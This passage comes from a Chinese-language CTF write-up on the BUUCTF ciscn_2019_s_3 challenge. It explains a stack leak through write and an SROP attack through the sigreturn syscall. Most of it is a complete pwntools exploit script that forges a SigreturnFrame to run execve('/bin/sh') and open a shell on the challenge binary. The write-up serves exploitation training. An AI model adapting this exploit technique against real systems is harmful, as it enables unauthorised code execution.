 

这就意味着write是可以去泄露栈中数据的，因此我们就可以配合系统调用read来把/bin/sh写入栈里面，同时里面偏移加上泄露的栈地址，我们就可以计算出/bin/sh的地址。（这个/bin/sh偏移的计算在ret2csu中已经提过了，这里就不在赘述）

然后我们还发现了系统调用sigreturn

![image-20220411123146592](/upload/img/image-20220411123146592.png)

这就意味着我们可以去实现SROP了

```python
from pwn import *
from LibcSearcher import *
context(arch='amd64',os='linux',log_level='debug')
#p=remote('node4.buuoj.cn',28000)
p=process('./a')
e=ELF('./a')
csu_gadget1=0x40059A
modify_rax=0x4004E2
csu_gadget2=0x400580
term_proc=0x600e50
bss_addr=0x601030
pop_rdi_addr=0x4005a3
syscall_addr=0x400517
read_syscall=0x4004ED
mov_rax_15=0x4004DA
kong=0x600e50
offset=16
payload='/bin/sh\x00'.ljust(16,'\x00')+p64(read_syscall)#这次发送的目的就是获取/bin/sh的地址
p.send(payload)
p.recvuntil('\x05\x40\x00\x00\x00\x00\x00')#限制一下条件，确保接收的是我们要泄露的地址
leak_addr=u64(p.recv(8))
print(hex(leak_addr))
bin_sh_addr=leak_addr-280#这个偏移在ret2csu中计算出来了，这里不再重复提了
print(hex(bin_sh_addr))
frame=SigreturnFrame()#接下来开始设置参数
frame.rax=0x3b
frame.rdi=bin_sh_addr
frame.rsi=0
frame.rdx=0
frame.rip=syscall_addr
payload='/bin/sh\x00'.ljust(16,'\x00')+p64(mov_rax_15)+p64(syscall_addr)+str(frame)
#这次payload的目的是把/bin/sh存到栈里，并且伪造一个Signal Frame
p.send(payload)
p.interactive()
```
## BUUCTF_ciscn_2019_s_3
